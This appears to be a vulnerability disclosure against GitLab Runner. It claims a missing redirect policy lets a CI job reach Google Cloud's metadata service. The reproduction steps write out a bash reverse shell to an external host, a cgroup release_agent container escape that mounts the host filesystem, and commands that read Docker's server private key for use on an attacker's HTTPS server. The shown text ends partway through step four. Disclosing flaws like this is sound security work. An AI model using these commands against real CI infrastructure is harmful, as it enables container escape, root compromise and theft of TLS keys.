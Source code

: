 This can be used, for example to send requests to Google Cloud's metadata
service, but so far I've been unable to obtain the access token
(only the first character `a` is visible).

The culprit seems to be 
`https://gitlab.com/gitlab-org/gitlab-runner/-/blob/master/helpers/docker/official_docker_client.go#L45`

The line `httpClient := &http.Client{Transport: transport}` seems to be missing a proper
redirect policy.


# Steps to reproduce

There are a number of steps to reproduce this issue the way I did.
Most of them could be automated or simplified with further effort, but I think
the existing process can be followed relatively easily. Please let me know if you 
have trouble with it.

1 - Run a CI job and obtain a reverse shell into the Executor

Create a CI jobs that runs a command like 
```
bash -i >& /dev/tcp/1.2.3.4/4444 0>&1
```

Replace the IP address with the address of an external machine you control.

Use `nc -lvp 4444` to obtain the reverse shell from your machine.

2 - Prepare root access to the Executor and mount host file system

In the shell, run the following commands:

```
mkdir /h ;
mount /dev/sda9 /h;
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x;
echo 1 > /tmp/cgrp/x/notify_on_release;
export host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`;
 echo "$host_path/cmd" > /tmp/cgrp/release_agent;
```

This will both mount the host storage volume and prepare a cgroup trigger for running commands
as root.

3 - Obtain docker's certificate public and private keys

Run these commands:

```
cat /h/etc/docker/server.pem
cat /h/etc/docker/server-key.pem
```

4 - Set up a malicious HTTPS server in a machine you control

Copy the text of `server.pem` and `server-key.pem` to the corresponding files in your attacker
machine.
